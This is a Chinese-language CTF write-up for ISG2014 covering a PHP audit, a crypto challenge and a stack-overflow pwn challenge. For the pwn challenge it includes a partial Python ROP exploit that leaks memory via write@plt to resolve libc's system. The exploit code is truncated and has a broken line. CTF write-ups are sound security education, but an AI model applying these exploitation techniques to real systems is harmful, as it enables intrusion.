 # ISG2014 Writeups

2014/10/11 17:33 | [Sasiki](http://drops.wooyun.org/author/Sasiki "由 Sasiki 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

所有文件打包下载：[ISG.zip](http://drops.wooyun.org/wp-content/uploads/2014/10/ISG.zip)

### Smile Web 200

php 源代码审计

![enter image description here](img/img1_u77_png.jpg)

### Cryptobaby Crypto 100

￼按照程序逻辑,把 0x403018 处的数据按 131 进制分开成字符即可。

### Pwnme Exploit 300

漏洞为很明显的栈溢出,但没有提供 libc,需要自行获取 libc 中的函数地址。

在这里我们使用 pwntools 来获取 system 的地址,把参数写在 data 段并最终执行。

执行 system 时有很奇怪的偏移问题这里稍微调整了一下最后执行 system gadget 在栈上的位置。

```
￼￼￼￼￼#!/usr/bin/env python2
from zio import * 
from pwn import *

@MemLeak
def leak_write(addr):
    io.read_until('Pwn me if you can:\n')
    payload = 'A' * 24 + l64(poprdi) + l64(1) + l64(poprsi) + l64(addr) + junk +
l64(write_plt) + l64(main) 
    io.write(payload.ljust(0x100, 'A'))
    ret = io.read(256) 
    return ret

target = './pwnme'
```